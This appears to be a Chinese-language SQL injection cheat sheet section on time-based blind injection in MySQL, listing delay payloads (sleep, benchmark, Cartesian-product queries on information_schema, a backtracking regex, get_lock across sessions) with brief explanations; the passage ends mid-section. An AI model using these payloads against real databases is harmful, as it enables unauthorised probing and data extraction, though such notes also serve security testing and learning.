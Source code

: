 # 9 时间盲注

### 9.1 sleep

sleep(3)

### 9.2 benchmark

**作用：**

将表达式执行指定次数

**语法：**

```sql
benchmark(count,expr)
```

**利用：**

在执行次数比较多时，可以代替sleep函数

```sql
benchmark(1000000000,0)-- 三秒左右
benchmark(10000000,md5(0))-- 一秒左右
```

### 9.3 笛卡尔积

```sql
select count(*) from information_schema.columns a,information_schema.columns b;

select SUM(1) from information_schema.columns a,information_schema.columns b;
```

### 9.4 正则匹配

```sql
select rpad('a',99,'a') rlike concat(repeat('(a.*)+',30),'b');
```

### 9.5 get_lock(前置条件多), 正则

```sql
GET_LOCK(str, timeout)
```

对关键字进行了get_lock,那么再开另一个session再次对关键进行get_lock，就会延时我们指定的时间

**SESSION A**上锁，注入时的第一步也是对字段加锁

```sql
mysql> select get_lock('111',10);
+--------------------+
| get_lock('111',10) |
+--------------------+
|                  1 |
+--------------------+
1 row in set (0.01 sec)
```
